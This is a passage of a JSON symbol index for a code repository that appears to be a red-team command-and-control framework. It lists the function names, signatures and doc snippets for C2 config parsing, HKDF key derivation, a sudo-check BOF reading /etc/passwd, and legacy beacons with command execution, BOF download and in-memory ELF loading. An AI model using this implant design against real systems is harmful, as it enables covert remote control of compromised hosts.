{"kind": "macro", "line": 88, "name": "cJSON_Number", "signature": "#define cJSON_Number"}, {"kind": "macro", "line": 89, "name": "cJSON_String", "signature": "#define cJSON_String"}, {"kind": "macro", "line": 90, "name": "cJSON_Array", "signature": "#define cJSON_Array"}, {"kind": "macro", "line": 91, "name": "cJSON_Object", "signature": "#define cJSON_Object"}, {"kind": "macro", "line": 92, "name": "cJSON_Raw", "signature": "#define cJSON_Raw"}, {"kind": "macro", "line": 94, "name": "cJSON_IsReference", "signature": "#define cJSON_IsReference"}, {"kind": "macro", "line": 95, "name": "cJSON_StringIsConst", "signature": "#define cJSON_StringIsConst"}, {"kind": "macro", "line": 136, "name": "CJSON_NESTING_LIMIT", "signature": "#define CJSON_NESTING_LIMIT"}, {"kind": "macro", "line": 142, "name": "CJSON_CIRCULAR_LIMIT", "signature": "#define CJSON_CIRCULAR_LIMIT"}, {"kind": "macro", "line": 312, "name": "cJSON_SetIntValue", "signature": "#define cJSON_SetIntValue(object, number)"}, {"kind": "macro", "line": 316, "name": "cJSON_SetNumberValue", "signature": "#define cJSON_SetNumberValue(object, number)"}, {"kind": "macro", "line": 324, "name": "cJSON_SetBoolValue", "signature": "#define cJSON_SetBoolValue(object, boolValue)"}, {"kind": "macro", "line": 331, "name": "cJSON_ArrayForEach", "signature": "#define cJSON_ArrayForEach(element, array)"}]}, {"id": "include/certificate_pinning___tofu.h", "kind": "module", "label": "certificate_pinning___tofu.h", "language": "h", "sha256": "8fea5faf6b596068", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "certificate_pinning___tofu_process", "signature": "bool certificate_pinning___tofu_process(void);"}, {"kind": "macro", "line": 2, "name": "CERTIFICATE_PINNING___TOFU_H", "signature": "#define CERTIFICATE_PINNING___TOFU_H"}]}, {"id": "include/command_execution_via_execve.h", "kind": "module", "label": "command_execution_via_execve.h", "language": "h", "sha256": "130064245709949f", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "command_execution_via_execve_process", "signature": "bool command_execution_via_execve_process(void);"}, {"kind": "macro", "line": 2, "name": "COMMAND_EXECUTION_VIA_EXECVE_H", "signature": "#define COMMAND_EXECUTION_VIA_EXECVE_H"}]}, {"id": "include/config.c", "kind": "module", "label": "config.c", "language": "c", "sha256": "db1c861884c58591", "symbol_count": 28, "symbols": [{"doc": "declared in the schema. Unknown keys are skipped. Missing sections fall back to safe defaults.  #define _POSIX_C_SOURCE 200809L #include \"config.h\" #include <stdio.h> #include <stdlib.h> #include <string.h> #include <ctype.h> #include <time.h> #include <unistd.h> #include <limits.h> /* --- file slurper ---", "kind": "function", "line": 24, "name": "slurp", "signature": "static char *slurp(const char *path, size_t *out_len)"}, {"doc": "} if (fread(buf, 1, (size_t)n, f) != (size_t)n) { fclose(f); free(buf); return NULL; } buf[n] = '\\0'; fclose(f); out_len = (size_t)n; return buf; } /* --- lexer-style cursor helpers ---", "kind": "function", "line": 56, "name": "skip_ws", "signature": "static const char *skip_ws(const char *p, const char *end)"}, {"doc": "Read a JSON string starting at *pp (which must point at \"). On success, write the unescaped string into out (NUL terminated) * and advance *pp past the closing quote.", "kind": "function", "line": 66, "name": "read_string", "signature": "static int read_string(const char **pp, const char *end, char *out, size_t outsz)"}, {"kind": "function", "line": 113, "name": "read_int", "signature": "static int read_int(const char **pp, const char *end, int *out)"}, {"kind": "function", "line": 137, "name": "read_bool", "signature": "static int read_bool(const char **pp, const char *end, int *out)"}, {"doc": "out = 1; pp = p + 4; return 1; } if ((end - p) >= 5 && !memcmp(p, \"false\", 5)) { out = 0; pp = p + 5; return 1; } return 0; } /* Expect the literal byte c.", "kind": "function", "line": 156, "name": "expect", "signature": "static int expect(const char **pp, const char *end, char c)"}, {"doc": "Find the byte position of the matching closing brace for the * opening { at *pp. Honors string and escape rules.", "kind": "function", "line": 167, "name": "find_matching_brace", "signature": "static const char *find_matching_brace(const char *p, const char *end)"}, {"doc": "Skip the next value at p (string, number, bool, null, object, array). * Returns the position just past the value, or NULL on error.", "kind": "function", "line": 203, "name": "skip_value", "signature": "static const char *skip_value(const char *p, const char *end)"}, {"doc": "if (c == 't') return p + 4; if (c == 'f') return p + 5; if (c == 'n') return p + 4; /* number while (p < end && (*p == '-' || isdigit((unsigned char)*p) || *p == '.' || *p == 'e' || p == 'E' || *p == '+')) p++; return p; } /* --- hex decode ---", "kind": "function", "line": 269, "name": "hex_to_bytes", "signature": "static int hex_to_bytes(const char *hex, uint8_t *out, size_t outlen)"}, {"kind": "function", "line": 292, "name": "hmac_sha256", "signature": "static void hmac_sha256(const uint8_t *key, size_t key_len, const uint8_t *data, size_t data_len,..."}, {"kind": "function", "line": 299, "name": "hkdf_extract", "signature": "static void hkdf_extract(const uint8_t *salt, size_t salt_len, const uint8_t *ikm, size_t ikm_len..."}, {"kind": "function", "line": 305, "name": "hkdf_expand", "signature": "static void hkdf_expand(const uint8_t *prk, size_t prk_len, const uint8_t *info, size_t info_len,..."}, {"kind": "function", "line": 337, "name": "hkdf_sha256", "signature": "static void hkdf_sha256(const uint8_t *ikm, size_t ikm_len, const uint8_t *salt, size_t salt_len,..."}, {"kind": "function", "line": 345, "name": "derive_keys_from_master", "signature": "static void derive_keys_from_master(bsb_config_t *cfg)"}, {"doc": "} uint8_t salt[] = HKDF_SALT; uint8_t info_enc[] = HKDF_INFO_ENC; uint8_t info_hmac[] = HKDF_INFO_HMAC; hkdf_sha256(master_key, BSB_AES_KEY_BYTES, salt, sizeof(salt) - 1, info_enc, sizeof(info_enc) - 1, cfg->crypto.encryption_key, BSB_AES_KEY_BYTES); hkdf_sha256(master_key, BSB_AES_KEY_BYTES, salt, sizeof(salt) - 1, info_hmac, sizeof(info_hmac) - 1, cfg->crypto.hmac_key, BSB_AES_KEY_BYTES); } /* --- per-section parsers ---", "kind": "function", "line": 375, "name": "parse_c2", "signature": "static void parse_c2(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 419, "name": "parse_crypto", "signature": "static void parse_crypto(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 474, "name": "parse_timing", "signature": "static void parse_timing(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 518, "name": "parse_network", "signature": "static void parse_network(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 586, "name": "parse_bof", "signature": "static void parse_bof(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 620, "name": "parse_backoff", "signature": "static void parse_backoff(const char *p, const char *end, bsb_config_t *cfg)"}, {"doc": "} else { p = skip_value(p, end); if (!p) return; } p = skip_ws(p, end); if (p < end && *p == ',') p++; } } /* --- main load ---", "kind": "function", "line": 655, "name": "bsb_config_load", "signature": "int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen)"}, {"doc": "Return the directory the running binary lives in, or NULL if we cannot resolve it (e.g. on platforms without /proc/self/exe). The returned buffer is statically sized; the caller copies if * it needs to keep the value past subsequent calls.", "kind": "function", "line": 798, "name": "binary_dir", "signature": "static const char *binary_dir(char *out, size_t outsz)"}, {"kind": "function", "line": 820, "name": "bsb_config_load_default", "signature": "int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen)"}, {"kind": "function", "line": 853, "name": "bsb_config_sleep_seconds", "signature": "int bsb_config_sleep_seconds(const bsb_config_t *cfg)"}, {"kind": "macro", "line": 13, "name": "_POSIX_C_SOURCE", "signature": "#define _POSIX_C_SOURCE"}, {"kind": "macro", "line": 288, "name": "HKDF_SALT", "signature": "#define HKDF_SALT"}, {"kind": "macro", "line": 289, "name": "HKDF_INFO_ENC", "signature": "#define HKDF_INFO_ENC"}, {"kind": "macro", "line": 290, "name": "HKDF_INFO_HMAC", "signature": "#define HKDF_INFO_HMAC"}]}, {"id": "include/config.h", "kind": "module", "label": "config.h", "language": "h", "sha256": "5cef0e73a47eeda5", "symbol_count": 21, "symbols": [{"kind": "struct", "line": 30, "name": "bsb_c2_t"}, {"kind": "struct", "line": 38, "name": "bsb_crypto_t"}, {"kind": "struct", "line": 48, "name": "bsb_timing_t"}, {"kind": "struct", "line": 56, "name": "bsb_network_t"}, {"kind": "struct", "line": 64, "name": "bsb_bof_t"}, {"kind": "struct", "line": 70, "name": "bsb_backoff_config_t"}, {"kind": "struct", "line": 76, "name": "bsb_config_t"}, {"doc": "Load config from path. Returns 0 on success, -1 on error. * On error, leaves a human-readable message in `err` (if non-NULL).", "kind": "function", "line": 89, "name": "bsb_config_load", "signature": "int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen);"}, {"doc": "Load config from path. Returns 0 on success, -1 on error. * On error, leaves a human-readable message in `err` (if non-NULL). int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path.", "kind": "function", "line": 92, "name": "bsb_config_load_default", "signature": "int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen);"}, {"doc": "Load config from path. Returns 0 on success, -1 on error. * On error, leaves a human-readable message in `err` (if non-NULL). int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path. int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen); /* Compute a sleep duration with jitter applied. Returns seconds.", "kind": "function", "line": 95, "name": "bsb_config_sleep_seconds", "signature": "int bsb_config_sleep_seconds(const bsb_config_t *cfg);"}, {"kind": "macro", "line": 14, "name": "BSB_CONFIG_H", "signature": "#define BSB_CONFIG_H"}, {"kind": "macro", "line": 19, "name": "BSB_CONFIG_PATH_DEFAULT", "signature": "#define BSB_CONFIG_PATH_DEFAULT"}, {"kind": "macro", "line": 20, "name": "BSB_CONFIG_PATH_ENV", "signature": "#define BSB_CONFIG_PATH_ENV"}, {"kind": "macro", "line": 21, "name": "BSB_MAX_URL", "signature": "#define BSB_MAX_URL"}, {"kind": "macro", "line": 22, "name": "BSB_MAX_URI", "signature": "#define BSB_MAX_URI"}, {"kind": "macro", "line": 23, "name": "BSB_MAX_CLIENT_ID", "signature": "#define BSB_MAX_CLIENT_ID"}, {"kind": "macro", "line": 24, "name": "BSB_AES_KEY_HEX_LEN", "signature": "#define BSB_AES_KEY_HEX_LEN"}, {"kind": "macro", "line": 25, "name": "BSB_AES_KEY_BYTES", "signature": "#define BSB_AES_KEY_BYTES"}, {"kind": "macro", "line": 26, "name": "BSB_MAX_USER_AGENTS", "signature": "#define BSB_MAX_USER_AGENTS"}, {"kind": "macro", "line": 27, "name": "BSB_USER_AGENT_LEN", "signature": "#define BSB_USER_AGENT_LEN"}, {"kind": "macro", "line": 28, "name": "BSB_REPORT_URI_DEFAULT", "signature": "#define BSB_REPORT_URI_DEFAULT"}]}, {"id": "include/config_autogen.c", "kind": "module", "label": "config_autogen.c", "language": "c", "sha256": "7f877b51521940d4", "symbol_count": 18, "symbols": [{"doc": "Auto-generated C config parser from config/schema.json DO NOT EDIT MANUALLY - run config/generate_parsers.py to regenerate  #define _POSIX_C_SOURCE 200809L #include \"config_autogen.h\" #include <stdio.h> #include <stdlib.h> #include <string.h> #include <ctype.h> #include <time.h> #include <unistd.h> #include <limits.h> /* --- file slurper ---", "kind": "function", "line": 16, "name": "slurp", "signature": "static char *slurp(const char *path, size_t *out_len)"}, {"doc": "fseek(f, 0, SEEK_END); long n = ftell(f); fseek(f, 0, SEEK_SET); if (n < 0) { fclose(f); return NULL; } char *buf = (char *)malloc((size_t)n + 1); if (!buf) { fclose(f); return NULL; } if (fread(buf, 1, (size_t)n, f) != (size_t)n) { fclose(f); free(buf); return NULL; } buf[n] = '\\0'; fclose(f); out_len = (size_t)n; return buf; } /* --- lexer-style cursor helpers ---", "kind": "function", "line": 34, "name": "skip_ws", "signature": "static const char *skip_ws(const char *p, const char *end)"}, {"kind": "function", "line": 40, "name": "read_string", "signature": "static int read_string(const char **pp, const char *end, char *out, size_t outsz)"}, {"kind": "function", "line": 68, "name": "read_int", "signature": "static int read_int(const char **pp, const char *end, int *out)"}, {"kind": "function", "line": 85, "name": "read_bool", "signature": "static int read_bool(const char **pp, const char *end, int *out)"}, {"kind": "function", "line": 93, "name": "expect", "signature": "static int expect(const char **pp, const char *end, char c)"}, {"kind": "function", "line": 101, "name": "find_matching_brace", "signature": "static const char *find_matching_brace(const char *p, const char *end)"}, {"kind": "function", "line": 123, "name": "skip_value", "signature": "static const char *skip_value(const char *p, const char *end)"}, {"doc": "if (ch == '[') depth++; else if (ch == ']') { depth--; if (depth == 0) return p + 1; } p++; } return NULL; } if (c == 't') return p + 4; if (c == 'f') return p + 5; if (c == 'n') return p + 4; while (p < end && (*p == '-' || isdigit((unsigned char)*p) || *p == '.' || *p == 'e' || *p == 'E' || *p == '+')) p++; return p; } /* --- hex decode ---", "kind": "function", "line": 165, "name": "hex_to_bytes", "signature": "static int hex_to_bytes(const char *hex, uint8_t *out, size_t outlen)"}, {"kind": "function", "line": 177, "name": "parse_c2", "signature": "static void parse_c2(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 206, "name": "parse_crypto", "signature": "static void parse_crypto(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 227, "name": "parse_timing", "signature": "static void parse_timing(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 260, "name": "parse_network", "signature": "static void parse_network(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 300, "name": "parse_bof", "signature": "static void parse_bof(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 325, "name": "parse_backoff", "signature": "static void parse_backoff(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 350, "name": "parse_server", "signature": "static void parse_server(const char *p, const char *end, bsb_config_t *cfg)"}, {"kind": "function", "line": 375, "name": "bsb_config_load", "signature": "int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen)"}, {"kind": "macro", "line": 5, "name": "_POSIX_C_SOURCE", "signature": "#define _POSIX_C_SOURCE"}]}, {"id": "include/config_autogen.h", "kind": "module", "label": "config_autogen.h", "language": "h", "sha256": "bd4cd4efd193fa3c", "symbol_count": 12, "symbols": [{"kind": "struct", "line": 11, "name": "bsb_c2_t"}, {"kind": "struct", "line": 21, "name": "bsb_crypto_t"}, {"kind": "struct", "line": 28, "name": "bsb_timing_t"}, {"kind": "struct", "line": 35, "name": "bsb_network_t"}, {"kind": "struct", "line": 42, "name": "bsb_bof_t"}, {"kind": "struct", "line": 47, "name": "bsb_backoff_t"}, {"kind": "struct", "line": 52, "name": "bsb_server_t"}, {"kind": "struct", "line": 57, "name": "bsb_config_t"}, {"doc": "} bsb_server_t; typedef struct { bsb_c2_t c2; bsb_crypto_t crypto; bsb_timing_t timing; bsb_network_t network; bsb_bof_t bof; bsb_backoff_t backoff; bsb_server_t server; char path[512]; } bsb_config_t; /* Load config from path. Returns 0 on success, -1 on error.", "kind": "function", "line": 69, "name": "bsb_config_load", "signature": "int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen);"}, {"doc": "bsb_c2_t c2; bsb_crypto_t crypto; bsb_timing_t timing; bsb_network_t network; bsb_bof_t bof; bsb_backoff_t backoff; bsb_server_t server; char path[512]; } bsb_config_t; /* Load config from path. Returns 0 on success, -1 on error. int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path.", "kind": "function", "line": 72, "name": "bsb_config_load_default", "signature": "int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen);"}, {"doc": "bsb_network_t network; bsb_bof_t bof; bsb_backoff_t backoff; bsb_server_t server; char path[512]; } bsb_config_t; /* Load config from path. Returns 0 on success, -1 on error. int bsb_config_load(const char *path, bsb_config_t *cfg, char *err, size_t errlen); /* Load from BSB_CONFIG env or default path. int bsb_config_load_default(bsb_config_t *cfg, char *err, size_t errlen); /* Compute a sleep duration with jitter applied. Returns seconds.", "kind": "function", "line": 75, "name": "bsb_config_sleep_seconds", "signature": "int bsb_config_sleep_seconds(const bsb_config_t *cfg);"}, {"kind": "macro", "line": 6, "name": "BSB_CONFIG_AUTOGEN_H", "signature": "#define BSB_CONFIG_AUTOGEN_H"}]}, {"doc": "config_py.py - Python loader for BSB JSON config files.  Mirrors the C side in include/config.c so the C2 server and the beacon agree on the same schema. Generated/checked-in here so the C2 has no Python-side runtime dependency on a separate generator. Keep this in sync with include/config.c.", "id": "include/config_py.py", "kind": "module", "label": "config_py.py", "language": "py", "sha256": "e583c889bc675e46", "symbol_count": 3, "symbols": [{"doc": "Derive encryption and HMAC keys from master key using HKDF-SHA256.", "kind": "function", "line": 65, "name": "_derive_keys", "signature": "def _derive_keys(master_key_bytes)"}, {"doc": "Recursively merge overlay into base; overlay wins.", "kind": "function", "line": 84, "name": "_deep_merge", "signature": "def _deep_merge(base, overlay)"}, {"doc": "Load and validate a BSB config file.\n\nRaises ValueError on any schema violation. Returns a dict\nmatching DEFAULTS' structure plus derived keys.", "kind": "function", "line": 94, "name": "load_config", "signature": "def load_config(path)"}]}, {"doc": "Auto-generated Python config loader from config/schema.json DO NOT EDIT MANUALLY - run config/generate_parsers.py to regenerate", "id": "include/config_py_autogen.py", "kind": "module", "label": "config_py_autogen.py", "language": "py", "sha256": "15ae231a8951007d", "symbol_count": 3, "symbols": [{"doc": "Derive encryption and HMAC keys from master key using HKDF-SHA256.", "kind": "function", "line": 59, "name": "_derive_keys", "signature": "def _derive_keys(master_key_bytes)"}, {"doc": "Recursively merge overlay into base; overlay wins.", "kind": "function", "line": 80, "name": "_deep_merge", "signature": "def _deep_merge(base, overlay)"}, {"doc": "Load and validate a BSB config file.\n\nRaises ValueError on any schema violation. Returns a dict\nmatching DEFAULTS' structure plus derived keys.", "kind": "function", "line": 89, "name": "load_config", "signature": "def load_config(path)"}]}, {"id": "include/containerized_build_+_sbom.h", "kind": "module", "label": "containerized_build_+_sbom.h", "language": "h", "sha256": "fa6f3badeecde0fa", "symbol_count": 1, "symbols": [{"kind": "macro", "line": 2, "name": "CONTAINERIZED_BUILD_", "signature": "#define CONTAINERIZED_BUILD_"}]}, {"id": "include/hkdf_key_derivation.h", "kind": "module", "label": "hkdf_key_derivation.h", "language": "h", "sha256": "229e59f2d9384bb8", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "hkdf_key_derivation_process", "signature": "bool hkdf_key_derivation_process(void);"}, {"kind": "macro", "line": 2, "name": "HKDF_KEY_DERIVATION_H", "signature": "#define HKDF_KEY_DERIVATION_H"}]}, {"id": "include/iv_generation_with_entropy_verification.h", "kind": "module", "label": "iv_generation_with_entropy_verification.h", "language": "h", "sha256": "085a550a7b8b690f", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "iv_generation_with_entropy_verification_process", "signature": "bool iv_generation_with_entropy_verification_process(void);"}, {"kind": "macro", "line": 2, "name": "IV_GENERATION_WITH_ENTROPY_VERIFICATION_H", "signature": "#define IV_GENERATION_WITH_ENTROPY_VERIFICATION_H"}]}, {"id": "include/mutation_testing_integration.h", "kind": "module", "label": "mutation_testing_integration.h", "language": "h", "sha256": "969159567d693455", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "mutation_testing_integration_process", "signature": "bool mutation_testing_integration_process(void);"}, {"kind": "macro", "line": 2, "name": "MUTATION_TESTING_INTEGRATION_H", "signature": "#define MUTATION_TESTING_INTEGRATION_H"}]}, {"id": "include/pre-commit_+_ci_hardening.h", "kind": "module", "label": "pre-commit_+_ci_hardening.h", "language": "h", "sha256": "23a4d81ccc3e2b75", "symbol_count": 1, "symbols": [{"kind": "macro", "line": 2, "name": "PRE", "signature": "#define PRE"}]}, {"id": "include/replay_protection.h", "kind": "module", "label": "replay_protection.h", "language": "h", "sha256": "f094c7426fe15e4d", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "replay_protection_process", "signature": "bool replay_protection_process(void);"}, {"kind": "macro", "line": 2, "name": "REPLAY_PROTECTION_H", "signature": "#define REPLAY_PROTECTION_H"}]}, {"id": "include/socks5___http_proxy_support.h", "kind": "module", "label": "socks5___http_proxy_support.h", "language": "h", "sha256": "ff700c873dd412eb", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "socks5___http_proxy_support_process", "signature": "bool socks5___http_proxy_support_process(void);"}, {"kind": "macro", "line": 2, "name": "SOCKS5___HTTP_PROXY_SUPPORT_H", "signature": "#define SOCKS5___HTTP_PROXY_SUPPORT_H"}]}, {"id": "include/structured_jsonl_logging.h", "kind": "module", "label": "structured_jsonl_logging.h", "language": "h", "sha256": "5bf7f84ffa3efe55", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "structured_jsonl_logging_process", "signature": "bool structured_jsonl_logging_process(void);"}, {"kind": "macro", "line": 2, "name": "STRUCTURED_JSONL_LOGGING_H", "signature": "#define STRUCTURED_JSONL_LOGGING_H"}]}, {"id": "include/tls_client_certificate_authentication.h", "kind": "module", "label": "tls_client_certificate_authentication.h", "language": "h", "sha256": "0c27d308c08d4e94", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "tls_client_certificate_authentication_process", "signature": "bool tls_client_certificate_authentication_process(void);"}, {"kind": "macro", "line": 2, "name": "TLS_CLIENT_CERTIFICATE_AUTHENTICATION_H", "signature": "#define TLS_CLIENT_CERTIFICATE_AUTHENTICATION_H"}]}, {"id": "include/unified_config_schema.h", "kind": "module", "label": "unified_config_schema.h", "language": "h", "sha256": "494def06a3916484", "symbol_count": 2, "symbols": [{"kind": "function", "line": 4, "name": "unified_config_schema_process", "signature": "bool unified_config_schema_process(void);"}, {"kind": "macro", "line": 2, "name": "UNIFIED_CONFIG_SCHEMA_H", "signature": "#define UNIFIED_CONFIG_SCHEMA_H"}]}, {"doc": "install.sh - Install build deps and build everything.  Idempotent: safe to run on a fresh checkout. Tested on Debian 12 and Ubuntu 22.04.  For day-to-day development, prefer running `make` directly so errors are reported per-target. This script is for first-time setup and CI parity.", "id": "install.sh", "kind": "module", "label": "install.sh", "language": "sh", "sha256": "c907d80fd6734993", "symbol_count": 0, "symbols": []}, {"doc": "is_sudo.c — LazyOwn RedTeam BOF (Linux/x64)  Tipos", "id": "issudo.c", "kind": "module", "label": "issudo.c", "language": "c", "sha256": "a5aed1641402e80e", "symbol_count": 17, "symbols": [{"doc": "Tipos", "kind": "type_alias", "line": 6, "name": "size_t", "signature": "typedef unsigned long size_t;"}, {"kind": "type_alias", "line": 7, "name": "ssize_t", "signature": "typedef long ssize_t;"}, {"doc": "Wrappers", "kind": "function", "line": 22, "name": "syscall3", "signature": "static inline long syscall3(long n, long a1, long a2, long a3)"}, {"kind": "function", "line": 32, "name": "syscall1", "signature": "static inline long syscall1(long n, long a1)"}, {"doc": "strcmp mínimo (necesario para comparar strings)", "kind": "function", "line": 40, "name": "strcmp", "signature": "static int strcmp(const char *s1, const char *s2)"}, {"doc": "Obtener username desde /etc/passwd (sin libc)", "kind": "function", "line": 51, "name": "get_username_from_uid", "signature": "static int get_username_from_uid(long uid, char *buf, int buf_size)"}, {"kind": "function", "line": 121, "name": "go", "signature": "void go(char *args, int alen)"}, {"doc": "Símbolos del beacon", "kind": "function", "line": 10, "name": "BeaconPrintf", "signature": "extern void BeaconPrintf(int, const char *, ...);"}, {"kind": "function", "line": 11, "name": "BeaconOutput", "signature": "extern void BeaconOutput(int, const char *, int);"}, {"kind": "macro", "line": 2, "name": "NULL", "signature": "#define NULL"}, {"kind": "macro", "line": 3, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 14, "name": "SYS_openat", "signature": "#define SYS_openat"}, {"kind": "macro", "line": 15, "name": "SYS_read", "signature": "#define SYS_read"}, {"kind": "macro", "line": 16, "name": "SYS_close", "signature": "#define SYS_close"}, {"kind": "macro", "line": 17, "name": "SYS_getuid", "signature": "#define SYS_getuid"}, {"kind": "macro", "line": 18, "name": "SYS_getpwuid_r", "signature": "#define SYS_getpwuid_r"}, {"kind": "macro", "line": 19, "name": "AT_FDCWD", "signature": "#define AT_FDCWD"}]}, {"id": "legacy/beacon3.c", "kind": "module", "label": "beacon3.c", "language": "c", "sha256": "620a065cb3707913", "symbol_count": 28, "symbols": [{"doc": "=== ESTRUCTURAS ===", "kind": "struct", "line": 52, "name": "MemoryStruct"}, {"doc": "=== TRAMPOLINES ===", "kind": "struct", "line": 60, "name": "Trampoline"}, {"kind": "struct", "line": 69, "name": "SymbolResolver"}, {"doc": "=== CACHE DE TRAMPOLINES ===", "kind": "struct", "line": 76, "name": "TrampolineCache"}, {"kind": "function", "line": 145, "name": "__attribute__", "signature": "static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,\n            ..."}, {"doc": "=== BEACON API ===", "kind": "function", "line": 196, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...)"}, {"kind": "function", "line": 213, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len)"}, {"doc": "=== CRATE TRAPOLINE ===", "kind": "function", "line": 227, "name": "create_trampoline", "signature": "static void *create_trampoline(void *target)"}, {"doc": "=== CLEAN TRAMPOLINE ===", "kind": "function", "line": 268, "name": "cleanup_trampolines", "signature": "static void cleanup_trampolines(void)"}, {"kind": "function", "line": 286, "name": "get_or_create_trampoline", "signature": "static void *get_or_create_trampoline(void *target)"}, {"doc": "=== CURL WRITE CALLBACK ===", "kind": "function", "line": 324, "name": "WriteMemoryCallback", "signature": "static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)"}, {"doc": "=== HTTPS REQUEST ===", "kind": "function", "line": 342, "name": "https_request", "signature": "char *https_request(const char *url, const char *method, const char *post_data)"}, {"doc": "=== BASE64 ===", "kind": "function", "line": 436, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len)"}, {"kind": "function", "line": 454, "name": "base64_decode", "signature": "unsigned char *base64_decode(const char *input, int *len)"}, {"doc": "=== AES CFB ===", "kind": "function", "line": 480, "name": "aes256_cfb_encrypt", "signature": "unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"kind": "function", "line": 514, "name": "aes256_cfb_decrypt", "signature": "unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,\n            ..."}, {"doc": "=== EXEC CMD ===", "kind": "function", "line": 550, "name": "exec_cmd", "signature": "char *exec_cmd(const char *cmd, int *out_len)"}, {"doc": "=== Función auxiliar: alinear al tamaño de página ===", "kind": "function", "line": 576, "name": "page_align", "signature": "static size_t page_align(size_t size)"}, {"kind": "function", "line": 584, "name": "RunELF", "signature": "int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,\n           unsig..."}, {"doc": "=== GET LOCAL IPs ===", "kind": "function", "line": 1083, "name": "get_local_ips", "signature": "char *get_local_ips()"}, {"doc": "=== DOWNLOAD BOF ===", "kind": "function", "line": 1118, "name": "download_bof", "signature": "unsigned char *download_bof(const char *url, size_t *out_size)"}, {"doc": "=== RUN BOF AND CAPTURE ===", "kind": "function", "line": 1141, "name": "run_bof_and_capture", "signature": "char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,\n   ..."}, {"doc": "=== MAIN ===", "kind": "function", "line": 1187, "name": "main", "signature": "int main()"}, {"kind": "macro", "line": 1, "name": "_GNU_SOURCE", "signature": "#define _GNU_SOURCE"}, {"kind": "macro", "line": 33, "name": "C2_URL", "signature": "#define C2_URL"}, {"kind": "macro", "line": 34, "name": "CLIENT_ID", "signature": "#define CLIENT_ID"}, {"kind": "macro", "line": 35, "name": "MALEABLE", "signature": "#define MALEABLE"}, {"kind": "macro", "line": 36, "name": "USER_AGENTS_COUNT", "signature": "#define USER_AGENTS_COUNT"}]}, {"id": "legacy/beacon5.c", "kind": "module", "label": "beacon5.c", "language": "c", "sha256": "242b77f7effda6bf", "symbol_count": 44, "symbols": [{"doc": "=== ESTRUCTURAS ===", "kind": "struct", "line": 61, "name": "MemoryStruct"}, {"doc": "=== ESTRUCTURAS MESH ===", "kind": "struct", "line": 69, "name": "peer_t"}, {"kind": "struct", "line": 77, "name": "mesh_msg_t"}, {"doc": "=== TRAMPOLINES ===", "kind": "struct", "line": 102, "name": "Trampoline"}, {"kind": "struct", "line": 111, "name": "SymbolResolver"}, {"doc": "=== CACHE DE TRAMPOLINES ===", "kind": "struct", "line": 118, "name": "TrampolineCache"}, {"kind": "function", "line": 188, "name": "__attribute__", "signature": "static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,\n            ..."}, {"doc": "=== BEACON API ===", "kind": "function", "line": 239, "name": "BeaconPrintf", "signature": "void BeaconPrintf(int type, const char *fmt, ...)"}, {"kind": "function", "line": 256, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len)"}, {"doc": "=== CRATE TRAPOLINE ===", "kind": "function", "line": 270, "name": "create_trampoline", "signature": "static void *create_trampoline(void *target)"}, {"doc": "=== CLEAN TRAMPOLINE ===", "kind": "function", "line": 311, "name": "cleanup_trampolines", "signature": "static void cleanup_trampolines(void)"}, {"kind": "function", "line": 329, "name": "get_or_create_trampoline", "signature": "static void *get_or_create_trampoline(void *target)"}, {"doc": "=== CURL WRITE CALLBACK ===", "kind": "function", "line": 367, "name": "WriteMemoryCallback", "signature": "static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)"}, {"doc": "=== HTTPS REQUEST ===", "kind": "function", "line": 385, "name": "https_request", "signature": "char *https_request(const char *url, const char *method, const char *post_data)"}, {"doc": "=== BASE64 ===", "kind": "function", "line": 479, "name": "base64_encode", "signature": "char *base64_encode(const unsigned char *input, int len)"}, {"kind": "function", "line": 497, "name": 